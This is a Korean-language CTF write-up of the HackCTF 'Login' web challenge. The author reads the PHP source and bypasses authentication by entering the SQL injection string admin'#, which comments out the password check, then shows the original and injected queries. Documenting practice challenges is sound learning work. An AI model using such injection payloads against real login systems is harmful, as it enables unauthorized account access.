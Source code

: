 ```yaml
---
title: '[HackCTF] Login'
date: 2022-03-06 00:00:00
categories: [HackCTF, Wargame]
tags: [hackctf, wargame, webhacking]
---
```


> \#web \#100pts


# 🚩 문제
---

![image](https://user-images.githubusercontent.com/37824335/222786190-dbce8ec8-c10b-411d-9626-c2873a000fde.png)

<br/>


# 🚩 문제 풀이
---
## 👁‍🗨 문제 파악

![image](https://user-images.githubusercontent.com/37824335/222786256-4f4a855b-22aa-4fb7-96d6-23451433f87e.png)

문제에서 제공한 링크로 들어가니 간단한 로그인 폼이 보였다.
**View Source**를 누르니

![image](https://user-images.githubusercontent.com/37824335/222786722-341e05b4-e559-4e30-8839-c20a945e7170.png){: w="700"}

위와 같은 php코드를 주었다. 코드를 해석해보면, 사용자에게 id와 pw를 입력받아 sql 쿼리문에 삽입한 후 데이터베이스에서 해당 정보를 꺼내와 배열에 할당하고 id에 해당하는 값이 존재하면 flag를 내뱉는 형태였다.

<br />

## 👁‍🗨 Exploit

단순한 **SQL Injection**으로 파악되었으나 DB에 어떤 id가 존재하는지를 모르는 상태였다. 그래서 admin 계정은 존재할 것 같아 Usename으로 `admin'#` 문자열을 삽입하였다.

```sql
# origin
select * from jhyenuser where binary id='$id' and pw ='$pw'

# SQL Injection
select * from jhyenuser where binary id='admin'#' and pw =''
```

<br>

위와 같이 쿼리문이 작성되었고 로그인을 시도하니

![image](https://user-images.githubusercontent.com/37824335/222787168-ad8bab38-a671-4095-9446-a471568d4790.png)

flag를 뱉었다!
